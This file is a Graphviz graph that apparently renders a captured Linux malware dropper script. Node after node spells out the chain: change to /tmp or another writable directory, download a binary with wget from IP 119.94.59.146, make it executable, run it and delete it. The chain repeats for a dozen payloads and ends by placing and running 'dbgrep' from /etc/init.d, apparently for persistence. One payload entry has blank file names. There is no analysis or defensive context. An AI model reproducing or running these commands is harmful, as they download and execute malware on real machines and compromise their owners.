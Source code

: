 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://119.94.59.146/aaajalungka "];
10 -> 12 [label=";,"];
12 [label="chmod +x aaajalungka "];
12 -> 14 [label=";,"];
14 [label="./aaajalungka "];
14 -> 16 [label=";,"];
16 [label="rm -rf aaajalungka "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://119.94.59.146/aaajamango "];
28 -> 30 [label=";,"];
30 [label="chmod +x aaajamango "];
30 -> 32 [label=";,"];
32 [label="./aaajamango "];
32 -> 34 [label=";,"];
34 [label="rm -rf aaajamango "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://119.94.59.146/aaajaopenggl "];
46 -> 48 [label=";,"];
48 [label="chmod +x aaajaopenggl "];
48 -> 50 [label=";,"];
50 [label="./aaajaopenggl "];
50 -> 52 [label=";,"];
52 [label="rm -rf aaajaopenggl "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://119.94.59.146/aaajavast "];
64 -> 66 [label=";,"];
66 [label="chmod +x aaajavast "];
66 -> 68 [label=";,"];
68 [label="./aaajavast "];
68 -> 70 [label=";,"];
70 [label="rm -rf aaajavast "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://119.94.59.146/aaajagreyps "];
82 -> 84 [label=";,"];
84 [label="chmod +x aaajagreyps "];
84 -> 86 [label=";,"];
86 [label="./aaajagreyps "];
86 -> 88 [label=";,"];
88 [label="rm -rf aaajagreyps "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://119.94.59.146/aaajakuhamo "];
100 -> 102 [label=";,"];
102 [label="chmod +x aaajakuhamo "];
102 -> 104 [label=";,"];
104 [label="./aaajakuhamo "];
104 -> 106 [label=";,"];
106 [label="rm -rf aaajakuhamo "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://119.94.59.146/aaajamarco "];
118 -> 120 [label=";,"];
120 [label="chmod +x aaajamarco "];
120 -> 122 [label=";,"];
122 [label="./aaajamarco "];
122 -> 124 [label=";,"];
124 [label="rm -rf aaajamarco "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://119.94.59.146/aaajachikos "];
136 -> 138 [label=";,"];
138 [label="chmod +x aaajachikos "];
138 -> 140 [label=";,"];
140 [label="./aaajachikos "];
140 -> 142 [label=";,"];
142 [label="rm -rf aaajachikos "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://119.94.59.146/aaajapchikos "];
154 -> 156 [label=";,"];
156 [label="chmod +x aaajapchikos "];
156 -> 158 [label=";,"];
158 [label="./aaajapchikos "];
158 -> 160 [label=";,"];
160 [label="rm -rf aaajapchikos "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://119.94.59.146/aaajacos "];
172 -> 174 [label=";,"];
174 [label="chmod +x aaajacos "];
174 -> 176 [label=";,"];
176 [label="./aaajacos "];
176 -> 178 [label=";,"];
178 [label="rm -rf aaajacos "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://119.94.59.146/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://119.94.59.146/aaajafacebook3 "];
208 -> 210 [label=";,"];
210 [label="chmod +x aaajafacebook3 "];
210 -> 212 [label=";,"];
212 [label="./aaajafacebook3 "];
212 -> 214 [label=";,"];
214 [label="rm -rf aaajafacebook3 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://119.94.59.146/aaajanetdelds "];
226 -> 228 [label=";,"];
228 [label="chmod +x aaajanetdelds "];
228 -> 230 [label=";,"];
230 [label="./aaajanetdelds "];
230 -> 232 [label=";,"];
232 [label="rm -rf aaajanetdelds "];
232 -> 234 [label=";,"];
234 [label="cd /etc/init.d "];
234 -> 234
236 [label="wget http://119.94.59.146/dbgrep "];
236 -> 238 [label=";,"];
238 [label="chmod 0777 dbgrep "];
238 -> 240 [label=";,"];
240 [label="./dbgrep "];
240 -> 241 [label=";,"];
}
